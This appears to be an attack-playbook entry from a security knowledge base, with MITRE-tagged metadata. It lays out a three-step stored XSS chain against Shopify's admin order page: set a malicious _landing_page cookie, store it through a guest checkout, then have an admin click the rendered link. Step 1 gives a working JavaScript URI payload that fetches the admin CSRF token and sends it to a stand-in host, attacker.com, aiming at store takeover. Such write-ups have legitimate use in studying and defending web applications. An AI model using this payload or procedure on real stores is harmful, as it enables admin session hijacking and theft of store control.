

---
tags:
  - xss
  - stored-xss
  - shopify
  - cookie-injection
  - admin-takeover
type: attack_chain
tools:
  - '[[tools/Browser-Developer-Tools]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Set-Malicious-_landing_page-Cookie]]'
  - '[[procedures/Perform-Guest-Checkout-to-Store-XSS-Payload]]'
  - '[[procedures/Trigger-Stored-XSS-in-Admin-Order-Details]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:33.607Z'
description: >-
  A multi-stage attack exploiting a stored XSS vulnerability in Shopify's admin
  order details page by injecting a malicious JavaScript URI into the
  _landing_page cookie during guest checkout, leading to execution in the
  admin's browser context and potential store takeover.
skill_level: intermediate
impact_level: high
id: 4350455c-6566-4605-b001-586a5e82bf41
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Stored-XSS-in-Shopify-Admin-via-Landing-Page-Cookie-for-Store-Takeover

Multi-stage attack chain demonstrating a complete customer-to-admin stored XSS workflow in Shopify, allowing arbitrary JavaScript execution in the admin's browser to steal CSRF tokens and perform privileged actions like adding attackers as store admins.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Browser-Developer-Tools]]

### Target Environment

- Shopify store on myshopify.com
- Guest checkout enabled
- Admin access to the store for exploitation phase

### Initial Access Requirements

- No credentials needed for injection (guest user)
- Network access to the public Shopify storefront
- Admin credentials for triggering (simulated or real)

## Detailed Attack Procedures

### Step 1: Inject Payload into Landing Page Cookie
procedure: [[procedures/Set-Malicious-_landing_page-Cookie]]

**Objective**: Modify the _landing_page cookie to contain a JavaScript URI payload that will be stored in order data.

**Instructions**: Use [[tools/Browser-Developer-Tools]] to access the Application tab, navigate to Cookies, and set the _landing_page value to `javascript:alert(1)` (or a more malicious payload like `javascript:fetch('/admin/csrf_token').then(r=>r.text()).then(t=>location='https://attacker.com/steal?token='+t)` for token theft).

**Expected Output**: Cookie set successfully; no immediate execution.

**Success Indicators**:
- Cookie value updated in browser storage
- No errors in console

### Step 2: Store Payload via Guest Checkout
procedure: [[procedures/Perform-Guest-Checkout-to-Store-XSS-Payload]]

**Objective**: Complete a guest checkout to persist the malicious cookie value in the order's landing page data.

**Instructions**: Add a low-value product to the cart, proceed to guest checkout, fill in minimal details (e.g., fake email, address), and complete the purchase. The _landing_page cookie value is automatically captured and stored in the order metadata.

**Expected Output**: Order confirmation page; payload stored server-side.

**Success Indicators**:
- Checkout completes without errors
- Order ID visible in confirmation

### Step 3: Trigger Stored XSS in Admin Order Details
procedure: [[procedures/Trigger-Stored-XSS-in-Admin-Order-Details]]

**Objective**: View the order as an admin and click the reflected link to execute the payload in the admin context.

**Instructions**: Log in to the Shopify admin panel, navigate to Orders, select the recent order by ID, scroll to the conversion details section, and click the 'The first page they visited' link, which renders the unsanitized _landing_page value as a clickable href.

**Expected Output**: JavaScript payload executes (e.g., alert pops or network request to attacker server).

**Success Indicators**:
- Alert or callback to attacker server
- Console logs show JS execution in admin session
- Potential CSRF token theft if payload advanced

## Attack Chain Summary

### Key Achievements

1. Injected and stored malicious JavaScript URI via cookie without authentication
2. Persisted payload in order data accessible only to admins
3. Executed arbitrary JS in high-privilege admin context, enabling token theft and store takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
